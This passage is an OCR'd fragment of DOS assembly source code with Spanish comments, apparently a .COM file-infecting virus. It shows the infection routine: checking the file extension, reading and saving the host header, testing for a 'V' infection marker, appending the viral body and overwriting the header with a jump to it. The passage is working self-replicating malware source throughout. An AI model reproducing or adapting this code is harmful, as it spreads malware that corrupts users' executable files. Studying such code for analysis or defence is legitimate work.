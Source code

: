     jne loop_str
    lodsb
    cmp al, 'C'
    jne check_fail
    lodsb
    cmp al, 'O'
    jne check_fail
    lodsb
    cmp al, 'M'
    je check_ok
    
check_fail:    
    jmp close_file

check_ok:    
    mov ah, 3Dh                                      ; | AH = 3Dh
    mov al, 2                                        ; | AL = 2, lectura y escritura
    int 21h                                          ; |_DOS API &#8211; Abrir archivo existente        

    jc exit                                          ; si no se puede abrir archivo, restaurar y delegar
    xchg ax, bx                                      ; handle de archivo en BX
    push cs
    pop ds                                           ; MOV DS, CS
    mov ah, 3Fh                                      ; | AH = 3Fh
    mov dx, V_OFFSET + offset host_head              ; | DS:DX -> destino: buffer para cabezal original
    mov cx, 4                                        ; | CX = tamaño del cabezal, 4 bytes
    int 21h                                          ; |_DOS API - Leer de archivo/dispositivo

    jc close_file                                    ; no se puede leer el archivo, cerrarlo

    cmp byte ptr ds:[V_OFFSET + host_head + 3], 'V'  ; comparar 4to byte con la firma viral &#8216;V&#8217;
    je close_file                                    ; si el archivo ya esta marcado, cerrarlo

    mov ah, 42h                                      ;| AH = 42h
    mov al, 2                                        ;| AL = 2, fin del archivo
    xor cx, cx                                       ;| CX = 0
    xor dx, dx                                       ;| DX = 0
    int 21h                                          ;|_DOS API - Establecer puntero en archivo  

    jc close_file                                    ; no se puede trabajar con el archivo, cerrarlo
                     
    mov ds:[V_OFFSET + file_size], ax
    mov ah, 40h                                      ; | AH = 40h
    mov cx, VIRUS_SIZE                               ; | CX = tamaño del virus
    mov dx, 0                                        ; | DS:DX -> origen: inicio del código viral
    int 21h                                          ; |_DOS API - Escribir en archivo/dispositivo  

    jc close_file                                    ; no se puede trabajar con el archivo, cerrarlo

    mov ax, ds:[V_OFFSET + file_size]                ; calcular el largo del JMP para el cabezal viral
    sub ax, 3                                        ; restarle 3 bytes del near JMP
    mov byte ptr ds:[V_OFFSET + tmp_head], 0E9h      ; construir cabezal viral en buffer temporal (E9h = near JMP)
    mov word ptr ds:[V_OFFSET + tmp_head + 1], ax
    mov byte ptr ds:[V_OFFSET + tmp_head + 3], 'V'      

    mov ah, 42h                                      ; | AH = 42h
    mov al, 0                                        ; | AL = 0, principio del archivo
    xor cx, cx                                       ; | CX = 0
    xor dx, dx                                       ; | DX = 0
    int 21h                                          ; |_DOS API - Establecer puntero en archivo   
    
    jc close_file                                    ; no se puede trabajar con el archivo, cerrarlo

    mov ah, 40h                                      ; | AH = 40h
    mov cx, 4                                        ; | CX = tamaño del cabezal, 4 bytes